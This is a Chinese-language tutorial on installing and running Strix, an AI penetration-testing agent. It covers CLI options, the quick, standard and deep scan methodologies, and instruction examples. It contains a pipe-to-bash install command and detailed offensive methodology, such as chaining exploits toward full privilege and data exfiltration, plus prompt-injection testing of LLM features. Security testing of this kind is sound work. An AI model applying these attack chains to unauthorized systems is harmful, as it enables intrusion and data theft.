

# Penetration Test


# [Strix](https://github.com/usestrix/strix)------------------

[官方文档](https://docs.strix.ai/)

[相关文档](https://aiknowledge.cn/collection/1161-strix-%E4%B8%AD%E6%96%87%E6%8A%80%E6%9C%AF%E6%95%99%E7%A8%8B)

Strix 是具备自主运行能力的 AI 智能代理，行为模式堪比真实黑客 —— 它可以动态执行你的代码、挖掘安全漏洞，并通过概念验证（PoC）对漏洞有效性进行核验。

该产品面向开发人员与安全团队打造，能够快速、精准地完成安全测试，省去人工渗透测试高昂的成本开销，同时规避静态分析工具普遍存在的误报问题。

容器镜像：`ghcr.io/usestrix/strix-sandbox`

# 0 绪论

使用场景：

- 应用安全测试 — 检测并验证应用程序中的高危漏洞

- 快速渗透测试 — 数小时内即可完成渗透测试，无需耗时数周

- 漏洞赏金自动化 — 自动开展漏洞探查并生成漏洞验证证明（PoC），加快报告输出

- CI/CD 集成 — 在漏洞发布至生产环境前将其拦截

核心能力：

- 完整黑客工具集 — 浏览器自动化、HTTP 代理、终端、Python 运行环境
- 真实漏洞验证 — 生成漏洞验证证明（PoC），杜绝误报
- 多智能体编排 — 多个专项智能体协同攻坚复杂目标
- 开发者优先命令行工具 — 支持交互式文本界面（TUI）或用于自动化的无头模式

安全工具：

- Strix 智能体内置一套完备的工具集

- | 工具            | 用途                                       |
  | --------------- | ------------------------------------------ |
  | HTTP 代理       | 完整的请求 / 响应篡改与分析                |
  | 浏览器自动化    | 多标签浏览器，用于 XSS、CSRF、认证流程测试 |
  | 终端            | 可交互 Shell，执行系统命令                 |
  | Python 运行环境 | 自定义漏洞利用代码开发与验证               |
  | 情报侦察        | 自动化开源情报（OSINT）收集、攻击面测绘    |
  | 代码分析        | 具备静态分析与动态分析能力                 |

漏洞覆盖范围：

| 漏洞分类   | 示例漏洞                                                     |
| ---------- | ------------------------------------------------------------ |
| 访问控制   | 垂直越权 (IDOR)、权限提升、认证绕过                          |
| 注入攻击   | SQL 注入、NoSQL 注入、命令注入                               |
| 服务端风险 | SSRF（服务端请求伪造）、XXE（XML 外部实体注入）、反序列化漏洞 |
| 客户端风险 | XSS（跨站脚本）、原型污染（prototype pollution）、DOM 漏洞   |
| 业务逻辑   | 竞态条件（Race conditions）、业务流程篡改                    |
| 身份认证   | JWT 漏洞、会话管理缺陷                                       |
| 基础设施   | 配置错误、对外开放的风险服务                                 |

multi-agent architecture

- Strix 采用由多个专项智能体构成的图谱，实现全方位安全测试

- **分布式工作流** — 针对不同攻击类型与资产配置专属智能体

- **可扩展测试能力** — 并行执行任务，快速完成全面漏洞覆盖

- **动态协同调度** — 各个智能体相互协作、共享探测到的漏洞信息



## strix与容器

`strix` 命令本身会全自动地处理与 Docker 沙箱容器相关的一切。

当你执行 `strix --target ...` 后，它会自动完成以下操作：

1. **检查 Docker 环境**：命令首先会确认你本地的 Docker 守护进程（Docker Daemon）正在运行。如果 Docker 没运行，它会直接报错提示。
2. **自动拉取镜像（仅首次）**：如果是**第一次**运行，它会自动从远程仓库（如 `ghcr.io/usestrix/strix-sandbox`）拉取所需的沙箱 Docker 镜像。这个镜像基于 Kali Linux，体积较大（约 3.77GB）。
3. **自动创建并启动容器**：镜像准备好后，`strix` 主程序会通过 Docker API 自动创建并启动一个沙箱容器。这个容器是**临时的（ephemeral）**，专为本次扫描任务而设。
4. **在容器内执行任务**：容器启动后，所有实际的渗透测试工具（如 `nmap`, `sqlmap` 等）都会在这个隔离的沙箱环境中执行。同时，容器内还会启动 Caido 代理等服务来捕获和分析流量。
5. **任务结束后的处理**：扫描完成后，`strix` 会根据情况处理这个容器。你不需要关心它的启动、配置或清理，这些都由 `strix` 命令在后台为你管理

你的准备工作很简单，只需要**确保两件事**：

- **Docker 已安装并运行**：确保你能在终端执行 `docker info` 并得到正常反馈。
- **正确设置环境变量**：在运行 `strix` 命令的**同一个终端会话**中，已经正确设置了 `STRIX_LLM` 和 `LLM_API_KEY`。

## 安装

strix命令工具安装

安装过程中，会检测机器是否有docker环境，会下载strix-1.5.3-linux-x86_64.tar.gz 命令包，和一个 docker sandbox沙箱镜像

```bash
# 安装脚本会在当前pwd下，生成一个bin目录，里面放一个strix可执行文件，并且将这个路径会写入.bashrc中。source 执行一下就可以使用这个命令了。

# 请单独下载脚本文件，执行了解相关信息后，然后修改脚本，以加快安装进程

# curl 安装
curl -sSL https://strix.ai/install | bash
# 在脚本中查找Downloading的地方
# 可以在脚本中打印一下，找到下载的路径是什么
print_message info "${MUTED}Download src: ${NC} $url\n"
https://github.com/usestrix/strix/releases/download/v1.5.3/strix-1.5.3-linux-x86_64.tar.gz
# 这个脚本会从github上下载资源文件
# 你如果可以单独通过vpn下载，会更快一些，所以我单独下载了，然后修改了脚本

# 然后替换这一段
curl -# -L -o "$filename" "$url"

    if [ ! -f "$filename" ]; then
        echo -e "${RED}Download failed${NC}"
        exit 1
    fi
    
# 替换为
local local_archive="/home/qbuntu/Downloads/strix-1.5.3-linux-x86_64.tar.gz"
cp -p "$local_archive" "$filename"
# local_archive为你放文件的位置

# 请提前下载sandbox docker镜像
# 即使提前下载STRIX_IMAGE的镜像，不然会很慢，即使你下载的名字不一样，但docker底层有镜像的唯一id，所以你就不需要重复下载
STRIX_IMAGE="ghcr.io/usestrix/strix-sandbox:1.3.0"


# 执行安装的脚本
bash install.sh

🦉 Installing Strix version: 1.5.3
Platform: linux-x86_64

Downloading...
Download src:  https://github.com/usestrix/strix/releases/download/v1.5.3/strix-1.5.3-linux-x86_64.tar.gz

Filename:  strix-1.5.3-linux-x86_64.tar.gz

Extracting...
✓ Strix installed to /home/qbuntu/.strix/bin
Successfully added strix to $PATH in /home/qbuntu/.bashrc
✓ Strix 1.5.3 ready

Checking for sandbox image...
Pulling sandbox image (this may take a few minutes)...
1.3.0: Pulling from usestrix/strix-sandbox
Digest: sha256:f6906c3114e504fd1a218fcf028d7a0e46851118403a438b63956de6ea7c4331
Status: Downloaded newer image for ghcr.io/usestrix/strix-sandbox:1.3.0
ghcr.io/usestrix/strix-sandbox:1.3.0
✓ Sandbox image pulled successfully


   ███████╗████████╗██████╗ ██╗██╗  ██╗
   ██╔════╝╚══██╔══╝██╔══██╗██║╚██╗██╔╝
   ███████╗   ██║   ██████╔╝██║ ╚███╔╝ 
   ╚════██║   ██║   ██╔══██╗██║ ██╔██╗ 
   ███████║   ██║   ██║  ██║██║██╔╝ ██╗
   ╚══════╝   ╚═╝   ╚═╝  ╚═╝╚═╝╚═╝  ╚═╝

  AI Penetration Testing Agent

To get started:

  1. Set your environment:
     export LLM_API_KEY='your-api-key'
     export STRIX_LLM='openai/gpt-5.4'

  2. Run a penetration test:
     strix --target https://example.com

For more information visit https://strix.ai
Supported models https://docs.strix.ai/llm-providers/overview
Join our community https://discord.gg/strix-ai

→ Run source ~/.bashrc or open a new terminal
```


# 1 CLI Reference


```bash
strix (--target <target> | --target-list <path>) [options]
```

1. --target，-t

   - 测试的目标，测试目标可以有多个

   - 目标类型：URLS，repos，本地文件夹，域名，ip地址，API接口文档（OpenAPI/Swagger .json/.yaml，或者导出的 postman collection），postman collection地址（postman://collection-uuid）

     - 如果target是一份 API 接口规范文档时，Strix 会将该文档复制到智能代理的工作空间中，并授权文档内声明的所有Base URL（包括从 Postman 环境变量解析得出的地址）作为**扫描范围内的主机**。

       因此智能代理会直接读取这份接口契约，对文档中完整声明的攻击面开展测试，而不需要通过爬虫探测的方式去寻找接口端点。

       将接口规范与已部署上线的服务根地址搭配使用（示例命令：`--target ./openapi.yaml --target https://api.example.com`），智能代理便可获得一个可访问的目标主机，执行渗透测试。

     - 如果target是本地文件夹，本地目录将以实时、可写入的方式挂载至沙箱环境，因此智能代理会修改你的真实文件（`.git` 目录除外）。所以**请先提交代码或暂存修改。**

     - 如果target是postman collection地址，通过 ID 获取 Postman 集合需要配置 `POSTMAN_API_KEY`（Postman 接口密钥）。

       追加参数 `?env=<environment-uuid>` 可同时拉取 Postman 环境配置，用来解析该集合所引用的 `{{baseUrl}}`、令牌等变量（示例：`postman://<collection-uuid>?env=<environment-uid>`）。

   - ```bash
     # Local codebase
     strix --target ./app-directory
     
     # GitHub repository
     strix --target https://github.com/org/repo
     
     # Live web application
     strix --target https://your-app.com
     
     # Multiple targets (white-box testing)
     strix -t https://github.com/org/repo -t https://your-app.com
     
     # Targets from a file, one target per non-empty, non-comment line
     strix --target-list ./targets.txt
     ```

2. --instruction

   - 扫描的自定义指令。可用于配置凭据、划定重点测试范围，或是指定特定的测试方案。
   - --instruction-file，也可以指定一个详细指令的文件

3. --workspace-file

   - 扫描开始前，待放入沙箱工作区的本机文件路径。如需上传多个文件，可重复使用该参数。

     格式填写规则：`路径:目标位置`，用于指定文件在 `/workspace` 目录内的存放位置；若不填写目标位置，默认使用原文件名。

4. --scan-mode，-m

   - 扫描深度（强度）：quick，standard， deep

5. --scope-mode 

   - 代码范围模式，默认auto
   - auto：在CI/headless模式下，启用合并请求差异扫描范围
   - diff：强制仅扫描变更文件
   - full：关闭差异范围扫描，扫描全部代码

6. --diff-base

   - 用于对比的目标分支（branch）或提交版本（commit）（例如：`origin/main`）。默认使用代码仓库的默认分支。

7. --non-interactive, -n

   - 以无界面（headless）模式运行，不启用文本交互界面（TUI：Text‑based User Interface）。适用于 CI/CD 流水线。

8. --config

   - 自定义 JSON 配置文件的路径，用于替代默认配置文件 `~/.strix/cli‑config.json`

9. --max-budget，number

   - 单次扫描的大型语言模型最大开销限额（美元），开销由根代理以及所有子代理累计计算。每次模型返回响应后都会校验预算。
   - 在**非交互模式（-n）**下，当运行成本达到阈值时，扫描会正常终止，状态标记为已停止（非失败），同时销毁沙箱环境。子代理会在预算消耗至 90% 时提前停止，预留最后一部分预算供根代理收尾并生成最终报告。
   - 在**交互模式**下，达到预算上限只会暂停扫描，而非直接结束：所有代理进入待命状态；发送任意消息即可恢复扫描，同时限额在原有预算基础上增加一倍。交互模式下不为子代理预留预算。
   - 当开销即将触及预算时，各级代理将会收到分阶段收尾警告，使其能够完成手头工作，并在强制终止前调用生命周期工具。不同代理的警告节点略低于各自的停止阈值：
     - 根代理警告节点：70%、85%、95%，到达 100% 时停止；
     - 子代理警告节点：75%、80%、85%，到达 90% 预留线时停止。
     - 交互模式下所有代理统一使用 70%、85%、95% 的警告档位。警告中展示的百分比为累计实际开销占总预算的比例。
   - 该参数取值必须大于 0；如省略此选项，则开销无上限。

10. --max-turns integer default:"500"

    - 分配给每个代理的最大轮次（一轮 = 一次模型响应加上对应的一轮工具调用），每次运行单独计数。代理达到该上限时将被强制终止。
    - 轮次限额即将耗尽时，系统会在下一次模型交互轮次内向该代理推送分阶段收尾警告（70%、85%、95%），使其优先完成剩余工作，并在强制停止前调用生命周期工具（根代理调用 `finish_scan`，子代理调用 `agent_finish`）。
    - 参数值必须大于0

11. --resume，通过运行名称恢复之前的扫描任务（对应目录：`./strix_runs/`下的文件夹，记住不是文件路径名称，而是run_name）。会读取根代理以及所有非终止子代理的完整大模型对话历史与代理拓扑结构，不再生成新的运行名称。

    - eg: `strix --resume sc-lowalt-ops-back_c2d2`，在执行命令的时候，请在strix_runs 的同级目录下执行

```bash
strix views run_name

# eg：
strix view sc-lowalt-ops-back_c2d
```

- 启动一个网站，可以在网页上查看相关的渗透测试报告


## 1.1 命令退出码

- 0，Scan 成功，interactive mode 总是返回0，headless mode 0意味着没有发现vulnerabilities
- 1，扫描期间致命错误发生，eg：缺少环境变量，没有docker，无效的配置文件，diff-scope 解析失败
- 2，发现vulnerabilities (headless mode only)

## 1.2 Scan Mode

1. quick：快速检查那些显而易见的缺陷
   - 场景：CI/CD，验证连通性，冒烟测试
   - Duration：Minutes
2. standard：适用于常规安全审查的均衡测试模式
   - 场景：常规安全评估，预发布验证，开发里程碑
   - Duration：30Minutes to 1 Hour
3. deep：全面的渗透测试（默认的模式）
   - 场景：全面的安全审计，pre-production审查，关键的应用评估
   - Duration：1-4 hours ，取决于目标的复杂度

| Scenario             | Recommended Mode |
| :------------------- | :--------------- |
| Every PR             | Quick            |
| Weekly scans         | Standard         |
| Before major release | Deep             |
| Bug bounty hunting   | Deep             |


### 1.2.1 [quick](https://github.com/usestrix/strix/blob/main/strix/skills/scan_modes/quick.md)

限时快速评估，聚焦高影响漏洞，优先覆盖范围而非深度挖掘。

实施思路：以快速输出关键安全问题反馈为导向。不做全盘遍历，针对高价值攻击面开展定向测试。

测试思维mindset 是「像时间紧迫的赏金猎人冲快速胜利」

#### Phase 1：快速定位（Rapid Orientation）

##### 白盒（可获取源代码）

- 重点关注近期变更：`git diff`差异、新提交记录、被修改文件，这类位置最容易出现新增漏洞
- 优先对变更文件执行快速静态初筛（使用`semgrep`，再执行定向`sg`查询）
- 至少执行一次轻量抽象语法树（AST）解析（`sg`或 Tree‑sitter），切勿跳过代码结构梳理
- AST 命令严格限定在变更路径或高风险路径，禁止对整个代码仓库执行大规模模式扫描
- 条件允许时，针对变更区域快速检测密钥与依赖风险（`gitleaks`、`trufflehog`、`trivy fs`）
- 在变更代码中识别安全敏感逻辑：身份校验、输入处理、数据库查询、文件操作
- 跟踪用户输入在变更代码链路中的流转过程
- 核查安全防护逻辑是否被修改或存在绕过风险

**黑盒（无源代码）**

- 梳理身份认证流程与核心业务链路
- 识别对外暴露的接口与入口点
- 不做深度目录探测，仅测试可直接访问的内容

#### Phase 2：高影响目标（High-Impact Targets）

按优先级顺序开展测试：

1. **身份认证绕过** — 登录逻辑缺陷、session问题、token弱点
2. **访问控制失效** — 越权访问 (IDOR)、权限提升、授权校验缺失
3. **远程代码执行** — 命令注入、反序列化、服务端模板注入 (SSTI：Server‑Side Template Injection)
4. **SQL 注入** — 登录接口、搜索功能、筛选条件
5. **服务端请求伪造 (SSRF)** — URL 参数、Webhook、第三方集成接口
6. **密钥泄露** — 硬编码凭证、API 密钥、配置文件

快速扫描中可跳过的内容：

- 完整子域名枚举
- 全量目录暴力爆破
- 低危害的信息泄露问题
- 无法构造可用验证样本 (PoC) 的理论风险

#### Phase 3：结果验证

- 使用最简概念验证（POC）样本确认漏洞可利用性
- 证明实际业务影响，而非只描述理论风险
- 发现问题后立即输出报告

#### 漏洞链式利用

当发现关键漏洞原语（认证缺陷、注入点、内网访问能力），立刻尝试一次高危害横向跳转，以证明最大风险等级。不要停留在推测层面，构建完整利用链路，实现权限提升或敏感数据获取。

**操作规范**

- 使用浏览器工具对核心业务流程开展快速人工测试
- 终端使用快速预设规则执行定向扫描（例如：nuclei 仅启用高危、严重级模板）
- 通过代理抓取关键接口流量
- 不开展大规模模糊测试，仅使用定向测试载荷
- 仅为高优先级并行任务启用子代理

#### 测试思维

以限时漏洞赏金猎手的思路，追求高效产出。核心区域优先保证覆盖广度，不必深挖。发现疑似可利用点就快速验证，随后继续推进。不要死磕单一方向，如果某攻击向量短时间没有产出，及时切换测试目标。


工具术语

- Semgrep 是一个功能强大且易用的静态代码分析工具。它通过语义匹配和灵活的规则系统，能有效帮助开发团队在代码提交前发现并修复安全漏洞和代码问题。
- Tree-sitter 是一个**代码增量解析库**，代码的文本结构转化为计算机易于理解的结构化数据。**现代代码编辑器 (如 Zed, Neovim)** 用它来实现语法高亮、代码折叠和智能补全；**代码分析工具 (如 `sg`)** 则用它来理解代码结构，进行深度分析。
- **`sg` 指的是 `ast-grep`**，一个独立的代码结构搜索和改写工具，一个**基于 Tree-sitter 构建的、专门用于代码搜索、检查和重构的命令行工具**
- **`gitleaks`** 和 **`trufflehog`** 是**专门的密钥（Secret）扫描工具**，专注于发现代码仓库中的敏感信息，如密码、API密钥等
- **`trivy fs`** 是 **Trivy** 工具的一个子命令，它是一个**综合性的安全扫描器**，`trivy fs` 用于扫描本地文件系统，能发现依赖库的漏洞、配置错误以及敏感信息等多种安全问题


### 1.2.2 [standard](https://github.com/usestrix/strix/blob/main/strix/skills/scan_modes/standard.md)

采用系统化方法、覆盖完整攻击面的均衡型安全评估

mindset 是「系统化、有条理,边测边记,验证一切」。

测试思路：对全部攻击面执行系统化测试，在开展漏洞利用前充分理解应用系统。

#### Phase 1: Reconnaissance（侦察）

**白盒（可获取源代码）**

- 梳理代码库结构：模块、入口点、路由逻辑
- 使用`semgrep`完成首轮初筛，在深度人工审查前优先定位高风险业务链路
- 至少执行一次 AST 代码结构解析（`sg`和 / 或 Tree‑sitter），基于输出结果梳理路由、风险污点汇聚点、信任边界
- AST 输出限定在相关路径与待验证假设，避免导出整个代码库的通用函数数据
- 识别系统架构模式（MVC、微服务、单体架构）
- 追踪各类输入来源：表单、API 接口、文件上传、请求头、Cookie
- 审查身份认证与授权流程
- 分析数据库交互逻辑以及 ORM 框架使用情况
- 使用`trivy fs`、`gitleaks`、`trufflehog`检查依赖组件与代码仓库风险
- 理清数据模型以及敏感数据存放位置

**黑盒（无源代码）**

- 完整爬取应用，遍历全部功能模块
- 枚举接口、请求参数与业务功能
- 识别技术栈指纹
- 梳理用户角色与权限等级
- 通过代理抓取流量，分析请求与响应特征

#### 阶段 2：业务逻辑分析（Business Logic Analysis）

在漏洞测试之前，先吃透应用业务：

- **关键业务流程** — 支付、注册、数据访问、管理员功能
- **角色权限边界** — 哪些操作仅限特定用户执行
- **数据访问规则** — 用户之间应当隔离哪些数据
- **状态流转** — 订单生命周期、账号状态变更
- **信任边界** — 权限或敏感数据的流转位置


#### 阶段 3：系统化测试

有条不紊测试每一块攻击面，针对不同测试域启用专项子代理。 **输入校验**

- 对全部输入字段开展注入测试（SQL、XSS、命令注入、模板注入）
- 尝试文件上传绕过
- 篡改搜索、过滤类请求参数
- 检测重定向与 URL 参数处理逻辑

**认证与会话**

- 暴力破解防护能力
- 会话令牌随机性与处理逻辑
- 密码重置流程分析
- 登出时会话销毁有效性
- 各类身份认证绕过手段

**访问控制**

- 水平越权：A 用户访问 B 用户的资源
- 垂直越权：低权限用户调用管理员功能
- API 接口与前端页面访问控制逻辑一致性
- 直接对象引用篡改测试

**业务逻辑**

- 多步流程绕过（跳过步骤、调整执行顺序）
- 状态变更类操作的竞态条件
- 边界值测试：负数、零、极端数值
- 交易重放与篡改测试


#### 阶段 4：漏洞利用

- 每一项发现都需要可运行的概念验证（PoC）
- 证明实际业务影响，而非仅描述理论风险
- 链式组合漏洞，展示最大危害等级
- 完整记录从入口点到产生危害的整条攻击路径
- 复杂漏洞利用可通过`exec_command`调用 Python 脚本开发

#### 阶段 5：报告输出

- 记录所有已确认漏洞，附带复现步骤
- 根据可利用性与业务影响判定风险等级
- 给出修复建议
- 标记需要进一步深度调研的范围


#### 漏洞链式利用

持续思考：“如果我能够完成 X 操作，接下来还能实现什么？” 持续横向移动，直至获取最高权限或泄露敏感数据。 优先输出端到端完整攻击链路（入口点→横向跳转→权限操作 / 数据窃取），而非孤立的漏洞点。以真实用户视角操作应用，漏洞利用必须适配真实业务流程与状态切换。 当发现可用于跳转的条件（信息泄露、薄弱边界、部分权限获取），立刻推进下一步，不要停留在第一个漏洞点。


#### 测试思维mindset

保持条理化、系统化，边测试边记录。所有结论必须验证，不主观假设漏洞可利用。重点考量业务影响，不局限于技术层面的风险等级。

#### 术语

| 英文术语             | 中文译文                  |
| -------------------- | ------------------------- |
| Reconnaissance       | 信息收集                  |
| Sink                 | 污点汇聚点 / 风险 sink 点 |
| Trust‑boundary       | 信任边界                  |
| ORM                  | 对象关系映射              |
| Fingerprint          | 指纹识别                  |
| Horizontal privilege | 水平权限（水平越权）      |
| Vertical privilege   | 垂直权限（垂直越权）      |
| Race conditions      | 竞态条件                  |
| End‑to‑end paths     | 端到端攻击链路            |

### 1.2.3 [deep](https://github.com/usestrix/strix/blob/main/strix/skills/scan_modes/deep.md)

穷尽式安全评估，做到最大覆盖范围与最大挖掘深度，目标是发现别人遗漏的漏洞。

漏洞利用前完成透彻理解。测试每一个参数、每一个接口、每一类边界场景，组合漏洞实现最大攻击影响。

本模式旨在发现别人无法发现（错过）的问题。

#### 阶段 1：穷尽式信息收集

**白盒（可获取源代码）**

- 梳理代码库内全部文件、模块与代码执行路径
- 先开展广谱源码初筛（`semgrep`、`ast‑grep`、`gitleaks`、`trufflehog`、`trivy fs`），基于输出结果驱动深度审计
- 每个代码仓库至少执行一次完整 AST 结构解析（`sg`和 / 或 Tree‑sitter），并保存中间产物供复用
- AST 中间产物保持范围可控，以查询为导向（优先定位相关路径、风险汇聚点；避免导出全仓库通用函数）
- 借助语法感知解析工具（Tree‑sitter）提升符号、路由、风险汇聚点的提取质量
- 追踪从 HTTP 处理器到数据库查询的全部入口点
- 记录所有身份认证机制及其实现细节
- 梳理授权校验逻辑与访问控制模型
- 识别全部第三方服务集成与 API 调用
- 分析配置文件，查找密钥与配置错误
- 审查数据库表结构与数据关联关系
- 梳理后台任务、定时任务、异步处理逻辑
- 定位所有序列化 / 反序列化点位
- 审查文件处理逻辑：上传、下载、文件解析
- 理清部署模式与底层基础设施的预设逻辑
- 对照 CVE 与错误配置数据，核查全部依赖版本与仓库风险
- 查询指定产品 / 版本 CVE 漏洞优先使用 `vulnx search <query>` （ProjectDiscovery CVE 数据库），仅在该工具失效时再使用网页搜索

**黑盒（无源代码）**

- 多数据源、多工具执行完整子域名枚举
- 对所有服务执行全端口扫描
- 使用多套字典完成完整内容探测
- 对全部资产做技术栈指纹识别
- 通过接口文档、JS 代码解析、模糊测试完成 API 发现
- 识别全部参数，包含隐藏参数、极少使用的参数
- 梳理不同账号类型对应的全部用户角色
- 记录限流策略、WAF 规则、各类安全防护机制
- 根据外部探测结果，整理完整应用架构

#### 阶段 2：业务逻辑深度剖析

完整还原应用业务全貌：

- **用户业务流** — 记录每一条业务流程的全部步骤
- **状态机** — 梳理全部状态流转（已创建→已支付→已发货→已签收）
- **信任边界** — 定位权限发生交接的位置
- **不变约束** — 应用理应始终强制执行的业务规则
- **隐性预设条件** — 代码中存在但可能被破坏的隐含假设
- **多步骤攻击面** — 正常业务功能可被滥用的位置
- **第三方集成** — 梳理全部外部服务依赖

以每一类用户身份充分操作应用，完整理解整条数据生命周期。

#### 阶段 3：全维度攻击面测试

使用全部适用技术测试每一类输入源。 **输入处理**

- 多类型注入测试：SQL、NoSQL、LDAP、XPath、命令注入、模板注入
- 编码绕过：双重编码、Unicode 编码、空字节
- 边界条件与类型混淆测试
- 超大载荷与缓冲区相关问题

**认证与会话**

- 穷尽式暴力破解防护能力测试
- 会话固定、会话劫持、会话可预测性
- JWT / 令牌篡改
- OAuth 流程滥用场景
- 密码重置漏洞：令牌泄露、令牌复用、时间侧信道
- 多因素认证 (MFA) 绕过技术
- 全渠道开展账号枚举测试

**访问控制**

- 每一个接口均测试水平、垂直越权
- 对所有对象引用参数做篡改测试
- 强制浏览所有已发现资源
- HTTP 方法篡改（GET / POST / PUT / DELETE）
- 会话状态变更后的访问控制校验（登出、角色变更）

**文件操作**

- 穷尽式文件上传绕过：后缀名、Content‑Type、魔数
- 所有文件相关参数做路径遍历测试
- 通过文件包含实现 SSRF
- 在全部 XML 解析点位测试 XXE 漏洞

**业务逻辑**

- 所有状态变更类操作开展竞态条件测试
- 每一个多步业务流程做流程绕过测试
- 交易场景下价格、数量篡改
- 并行执行攻击
- TOCTOU（检查时间‑使用时间）漏洞

**高级测试技术**

- HTTP 请求走私（多代理 / 多服务架构）
- 缓存投毒、缓存欺骗
- 子域名接管
- 原型链污染（JavaScript 应用）
- CORS 配置错误利用
- WebSocket 安全测试
- GraphQL 专项攻击（内省查询、批量请求、嵌套查询）
- LLM/RAG/ 智能代理类功能：加载`llm_applications`覆盖 OWASP 2026 LLM01‑LLM10，加载`llm_prompt_injection`开展深度提示注入测试

#### 阶段 4：漏洞链式利用

单个漏洞只是起点，组合漏洞实现最大攻击效果：

- 将信息泄露与访问控制绕过进行组合利用
- SSRF 链式攻击访问内网服务
- 利用低危漏洞作为跳板实现高危攻击
- 构建自动化工具无法发现的多步骤攻击路径
- 跨组件边界：普通用户→管理员、外网→内网、读权限→写权限、单租户→跨租户

**链式利用原则**

- 将每一处漏洞都视作跳板，思考：“该漏洞可以解锁哪些后续操作？”
- 持续推进，直至拿到最高权限、获取最大规模敏感数据、实现完全控制
- 优先端到端完整利用链路，而非孤立漏洞：初始立足点→跳板→权限提升→敏感操作 / 窃取数据
- 完整复现整条链路验证可行性（业务流程使用代理 + 浏览器，自动化部分使用 Python）
- 发现跳板后，启用专项代理，在下游组件继续推进链式攻击

#### 阶段 5：持续性测试

首轮测试未成功时：

- 调研对应技术栈特有的绕过手段
- 尝试其他漏洞利用技术
- 测试边界场景与冷门功能
- 在不同客户端上下文下开展测试
- 结合其他漏洞获取的新信息，重新复查旧区域
- 考虑基于时间的盲利用方式
- 挖掘需要深度理解业务才能发现的逻辑缺陷

#### 阶段 6：完整报告输出

- 完整记录每一个已确认漏洞
- 包含全部风险等级，低危漏洞也可能作为链式攻击跳板
- 提供完整复现步骤与可运行 PoC
- 给出具备明确指导的修复建议
- 标记当前范围之外，仍需进一步审计的区域

#### agent调度策略

完成信息收集后，对应用做层级化拆解：

1. **组件层级** — 认证系统、支付网关、用户中心、管理后台
2. **功能层级** — 登录表单、注册接口、密码重置
3. **漏洞层级** — SQL 注入代理、XSS 代理、认证绕过代理

在各个层级创建专项代理，横向扩展实现最大并行度：

- 禁止单个代理同时处理多种漏洞类型
- 每个代理只聚焦单一领域或一类漏洞
- 形成大规模并行测试集群，覆盖全部测试角度

#### 测试思维

锲而不舍、思维灵活、足够耐心、全面细致、持续深挖。 本模式旨在挖掘别人发现不了的问题。测试每一个参数、每一个接口、每一处边界场景。一种手段失效，就尝试十余种备选方案。理解组件间交互关系，挖掘体系层面的安全问题。


#### 术语

| 英文术语               | 中文译文              |
| ---------------------- | --------------------- |
| Artifact               | 中间产物              |
| Symbol                 | 符号（代码符号）      |
| State machine          | 状态机                |
| Invariant              | 不变约束              |
| TOCTOU                 | 检查时间‑使用时间漏洞 |
| HTTP request smuggling | HTTP 请求走私         |
| Cache poisoning        | 缓存投毒              |
| Cache deception        | 缓存欺骗              |
| Prototype pollution    | 原型链污染            |
| Introspection          | GraphQL 内省查询      |
| Foothold               | 立足点                |


## 1.3 Custom Instructions

```bash
# 行内指令
strix --target https://app.com --instruction "Focus on authentication vulnerabilities"	# 重点检测身份认证相关漏洞

# 复杂指令，使用文件的方式传递指令
strix --target https://app.com --instruction-file ./pentest-instructions.md

# 给予认证信息
strix --target https://app.com \
  --instruction "Login with email: test@example.com, password: TestPass123" 	# 使用账号登录：邮箱 test@example.com，密码 TestPass123

# 专注范围
strix --target https://api.example.com \
  --instruction "Focus on IDOR vulnerabilities in the /api/users endpoints"		# 重点检测 /api/users 接口下的不安全直接对象引用（IDOR）漏洞
  
# 排除范围
strix --target https://app.com \
  --instruction "Do not test /admin or /internal endpoints"		# 不对 /admin 和 /internal 接口执行扫描测试
  
# API TEST
strix --target https://api.example.com \
  --instruction "Use API key header: X-API-Key: abc123. Focus on rate limiting bypass."		# 请求头携带 API‑Key：X‑API‑Key: abc123。重点检测限流绕过漏洞。
  


```

指令文件示例

```markdown
# 渗透测试指令
## 测试账号凭据
- 管理员账号：admin@example.com / AdminPass123
- 普通用户账号：user@example.com / UserPass123
## 重点检测范围
1. 用户资料接口的不安全直接对象引用（IDOR）越权漏洞
2. 不同角色之间的权限提升漏洞
3. JWT 令牌篡改漏洞
## 排除测试范围
- /health 健康检查接口
- 第三方集成功能
```

好的指令可以帮助Strix 优先考虑最有价值的袭击路径

### workspace files

指令内容会成为大模型提示词的一部分。如果你需要向 Strix 提供文件以供其使用（例如字典表、API 接口文档或备注材料），请使用参数 `--workspace‑file`。扫描启动前，Strix 会将该文件上传至沙箱工作目录。

```bash
strix --target https://app.com --workspace-file ./wordlist.txt
```

文件默认存放路径为 `/workspace/<文件名>`。如需自定义存放位置，请使用 `PATH:DEST` 格式填写参数。`DEST` 是 `/workspace` 目录下的子路径。

每一个需要上传的文件都要重复使用该参数。Strix 会在代理任务清单中列出这些文件，代理便可获知文件的读取位置。

适用于所有workspace file的规则：

1. 文件在沙箱内为只读。
2. 文件目标存放路径必须位于 `/workspace` 目录之内。
3. 目标路径不可指向被测目标目录。被测目标的文件由目标站点本身提供；如出现此种冲突，Strix 将跳过该文件并输出警告日志。
4. 两个文件不能指定相同的存放目标路径。


# 2 Coding Agent

在 Claude Code、Cursor、Codex 以及其他 AI 智能体中使用 Strix

Strix 专为 AI 编码智能体驱动运行而设计。安装官方智能体skills后，你的智能体便可执行渗透测试、修复安全问题结果，并将 Strix 接入持续集成（CI）流程。

```bash
npx skills add usestrix/strix
```

这个[usestrix/strix](http://skills.sh/usestrix/strix)包里包含以下skill

| 技能名称                                  | 智能体可掌握的能力                                           |
